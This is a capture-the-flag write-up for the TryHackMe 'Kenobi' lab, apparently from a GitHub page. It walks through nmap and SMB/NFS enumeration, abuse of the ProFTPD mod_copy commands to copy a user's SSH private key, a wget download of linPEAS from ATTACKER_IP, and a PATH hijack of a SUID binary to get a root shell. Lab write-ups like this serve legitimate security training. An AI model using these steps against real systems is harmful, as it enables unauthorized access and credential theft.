









|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Easy     |  | 10.10.243.180 |  | [Kenobi](https://tryhackme.com/room/kenobi) |  |

We start things off with a basic `nmap` scan on the server. We can run 2 scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that 7 ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 & 445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba (SMB) shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**



As we can see, 3 shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`:

```
smbclient //10.10.243.180/SHARE_NAME
```

I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to supply a password.

Once in, we can list the files on the share using `ls`:



There is a single text file: **log.txt**

**log.txt** was a ProFTPD configuration file which gave us a lot of interesting and potentially useful information about the server. I took note of the file and moved on first.

Next, let's tackle port **111**, which hosts **RPC**. 

---

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

---

In our case, port 111 gives us access to the **Network File System (NFS)** protocol, which runs using RPC. We can use `nmap` to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```



From the results, we can see that **/var** is mountable! With this in mind, let's move on to the **FTP** server.

The first thing we should do is to enumerate the version of ProFTPD running. To do so, we can use `nc` to connect to the FTP server and find out the version from the response banner:

```
nc 10.10.243.180 21
```

The response tells us that the ProFTPD version is **1.3.5**

Now that we know the version of ProFTPD running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit ProFTPD 1.3.5
```



Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFTPD. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

Remember the **log.txt** file from earlier? It actually reveals that the **private SSH key** of the user, kenobi, can be found in /home/kenobi/.ssh/id_rsa. Since we know that we can mount onto and access /var on the target machine, we can copy kenobi's private key over to /var and obtain it there.

With the private key, we'll then be able to access the machine via SSH as the user kenobi!

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home directory to the **/var/tmp** directory on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```



Next, we create a directory called 'kenobiNFS' in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the /var/tmp directory on the target machine by visting /mnt/kenobiNFS/ on our local machine:


We can then obtain the private key file!

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions of the key are set to be **read and write by owner only**. We do this with `chmod`:

```
chmod 600 id_rsa  // 400 works too
```

With the permissions set, let's now ssh into the machine as kenobi:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's home directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. 

To find these SUID-bit set binaries, the room taught me to use the `find` command:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) instead.

To transfer LinPEAS over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the linpeas.sh script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port 8000. 

Next, I used `wget` on the target machine to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting binary that had its SUID-bit set: **/usr/bin/menu**



Upon running this binary, we are presented with some interesting options:



It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID-bit being set).

Using the `strings` command, we can look for human-readable strings within the menu binary:



From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. using `curl` instead of `/usr/bin/curl`).

Hence, we can manipulate our **PATH** to exploit this and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is fully accessible by setting its permissions to be read-write-executable by all users:

```
chmod 777 curl
```

Next, we put its file location into our **PATH**. In my case, since I created the `curl` file in /tmp, I'll add that directory into my PATH:

```
export PATH=/tmp:$PATH
```

Now, when /usr/bin/menu is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in /tmp first and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:



With that, we are able to obtain **root.txt** from /root.


